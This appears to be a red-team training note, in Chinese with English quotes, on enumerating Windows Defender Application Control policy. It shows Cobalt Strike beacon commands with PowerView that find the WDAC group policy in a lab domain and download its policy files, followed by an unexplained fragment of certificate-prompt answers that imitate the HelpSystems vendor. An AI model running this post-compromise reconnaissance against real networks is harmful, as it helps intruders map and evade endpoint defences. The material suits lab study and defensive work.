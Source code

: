 # Windows Defender Application Control

> WDAC是一项Windows技术，旨在控制哪些驱动程序和应用程序被允许在机器上运行。 它听起来很像AppLocker，但有几个关键的区别。 其中最重要的是，微软承认WDAC是一个官方安全边界。 这意味着WDAC大大地更强大，适用的绕过方法实际上是被修复的（而且通常向发现者发出CVE）。(WDAC is a Windows technology designed to control which drivers and applications are allowed to run on a machine.  It sounds a lot like AppLocker, but with a few key differences.  The most significant of which is that Microsoft recognises WDAC as an [official security boundary](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria).  This means that WDAC is substantially more robust and applicable bypasses are actually fixed (and a CVE often issued to the finder).)


WDAC 策略文件在：```C:\Windows\schemas\CodeIntegrity\ExamplePolicies```


枚举
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-DomainGPO -Name *WDAC* -Properties GpcFileSysPath

gpcfilesyspath                                                                              
--------------                                                                              
\\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}

beacon> download \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol
[*] started download of \\redteamops2.local\SysVol\redteamops2.local\Policies\{36C8DC4C-6B44-4EEB-9099-CA0E050DD6DE}\Machine\Registry.pol (448 bytes)
[*] download of Registry.pol is complete
```


使用Parse-PolFile命令解析文件
```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : DeployConfigCIPolicy
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
ValueName   : ConfigCIPolicyFilePath
ValueType   : REG_SZ
ValueLength : 116
ValueData   : \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b
```

ValueData 字段包含 WDAC 策略本身的位置

下载具体的WDAC策略文件
```
beacon> download \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b
[*] started download of \\redteamops2.local\SYSVOL\redteamops2.local\CIPolicy.p7b (2360 bytes)
[*] download of CIPolicy.p7b is complete
```


  [Unknown]:  HelpSystems LLC
  [Unknown]:  Hacker Squad
  [Unknown]:  HelpSystems LLC
  [Unknown]:  Eden Prairie
  [Unknown]:  MN
  [Unknown]:  US
  [no]:  yes